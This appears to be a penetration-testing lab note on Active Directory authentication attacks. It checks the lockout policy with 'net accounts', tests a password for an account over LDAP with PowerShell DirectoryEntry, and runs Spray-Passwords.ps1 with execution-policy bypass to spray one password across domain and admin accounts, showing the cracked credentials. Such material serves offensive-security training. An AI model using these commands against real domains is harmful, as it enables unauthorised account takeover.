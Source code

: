 # Authentication Attacks

## Password attacks

```
PS C:\Users\jeff> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

{% code title="Authenticating using DirectoryEntry" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\jeff> $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
PS C:\Users\jeff> $PDC = ($domainObj.PdcRoleOwner).Name

PS C:\Users\jeff> $SearchString = "LDAP://"

PS C:\Users\jeff> $SearchString += $PDC + "/"

PS C:\Users\jeff> $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

PS C:\Users\jeff> $SearchString += $DistinguishedName

PS C:\Users\jeff> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")

```
{% endcode %}

{% code title="Successfully authenticated with DirectoryEntry" overflow="wrap" lineNumbers="true" %}
```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```
{% endcode %}

### Spray-Passwords.ps1

```
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> powershell -ep bypass
...

PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```
